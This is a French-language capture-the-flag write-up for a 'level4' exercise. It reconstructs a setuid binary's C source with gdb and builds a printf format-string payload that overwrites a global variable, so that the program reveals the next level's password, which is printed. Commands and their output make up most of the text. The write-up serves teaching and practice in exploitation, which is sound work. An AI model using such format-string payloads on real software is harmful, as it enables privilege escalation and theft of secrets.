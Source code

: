 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2025(level4) gid=2025(level4) groups=2025(level4),100(users)
/home/user/level4
total 17
dr-xr-x---+ 1 level4 level4   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level4 level4  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level4 level4 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level5 users  5252 Mar  6  2016 level4
-rw-r--r--+ 1 level4 level4   65 Sep 23  2015 .pass
-rw-r--r--  1 level4 level4  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level4 :

```bash
$ ./level4
(waiting for input)
$ ./level4
da
da
```

Je recoupe l'analyse ASM du binaire avec GDB des résultats obtenus sur [Dogbolt](https://dogbolt.org/?id=b9f0625b-1ccf-4c04-ba81-40bf2a6eb0c0) et en extrait une version probable du code :

```c
int m;

void p(char *buffer)
{
    printf(buffer);
}

void n(void)
{
    char buffer[512];
    fgets(buffer, 512, stdin);

    p(buffer);
    if (m == 16930116)
        system("/bin/cat /home/user/level5/.pass");
}

int main(void)
{
    n();
}
```

Je note les choses suivante :

- `fgets()` est utilisé, et n'est donc pas vulnérable
- `printf()` est utilisé, probablement expoitable comme le `level3`, cependant il est dans une autre fonction

Je me penche sur la possibilité d'utiliser le même exploit que le `level``.
Je commence donc par trouver l'adresse de la variable `m` dans `gdb`.

Je trouve : `0x08049810`

```h
(gdb) disas n
Dump of assembler code for function n:
    ...
   0x08048488 <+49>:    call   0x8048444 <p>
   0x0804848d <+54>:    mov    0x8049810,%eax <--------- ici
   0x08048492 <+59>:    cmp    $0x1025544,%eax
    ...
```

Grâce à `Hexray`, je sais que la valeur qu'on essaye de comparer à `m` est `16930116`.
Il faut donc, par le même exploit que le `level3`, que j'arrive à donner à `m` cette valeur.

Or, dans le niveau précédent, j'avais la place d'écrire 64 caractères dans le buffer. Cette fois-ci, le buffer est seulement de 512 bytes, donc je n'ai pas ce luxe.

Pour le moment, j'ai donc uniquement la première partie de mon payload infecté, qui est l'adresse de `m` :

```python
python -c 'print("\x08\x04\x98\x10"[::-1])'
```

Maintenant, j'utilise une astuce qui me permet de ne pas écrire les 16 millions de caractères : `%16930116p`.

Cela me permet de représenter en tant que pointeur une valeur, mais avec un padding de 16 millions de caractères. Cela permet de contourner la limitation de `512` que `fgets()` exige ici.

Or, j'ai déjà écris les 4 bytes de l'adresse de `m` dans le payload, je n'ai donc besoin que de mettre un padding de `%16930112p`.

Le payload ressemble donc à ça pour le moment :

```python
python -c 'print("\x08\x04\x98\x10"[::-1] + "%16930112p")'
```

La dernière partie du payload est donc de convertir tout ces caractères en utilisant le formatteur `%n`. Comme pour le level3, il me faut donc trouver quel est la position de l'argument qui pointerait sur la première partie du `printf` (ici donc l'adresse de `m`) :

```bash
$ python -c 'print("a %x %x %x %x %x %x %x %x %x %x %x %x %x %x")' | ./level4
a b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 78252061 20782520 25207825
                                                                                        ^
$ python -c 'print("b %x %x %x %x %x %x %x %x %x %x %x %x %x %x")' | ./level4
b b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 78252062 20782520 25207825
                                                                                        ^
```

C'est donc ici le 12eime argument qui représente la première partie du `printf()`. Donc, comme pour le level 3, cela signifie que la dernière partie de mon payload est `%12$n` (note: le `$` dénote un argument tandis que le `12` est un simple padding, le combo signifie donc "l'argument à telle position").

Payload final :

```python
python -c 'print("\x08\x04\x98\x10"[::-1] + "%16930112p" + "%12$n")'
```

Je l'essaye :

```bash
python -c 'print("\x08\x04\x98\x10"[::-1] + "%16930112p" + "%12$n")' | ./level4

... (il print 16 millions de caractère de padding)

                      0xb7ff26b0 (puis le pointeur (le premier de la stack, vu qu'on ne demande pas une position précise), note: c'est le premier des 12 argument vu plus haut lors du test avec les %x %x %x...)

(enfin, de manière invisible, le %12$n affecte comme valeur de pointeur au 12eime argument de la stack (ici donc l'adresse de m) la valeur des caractère imprimé jusque ici, donc 16 millions, ce qui permet à 'm' de passer le if, et de nous imprimer le .pass ci-dessous)

0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
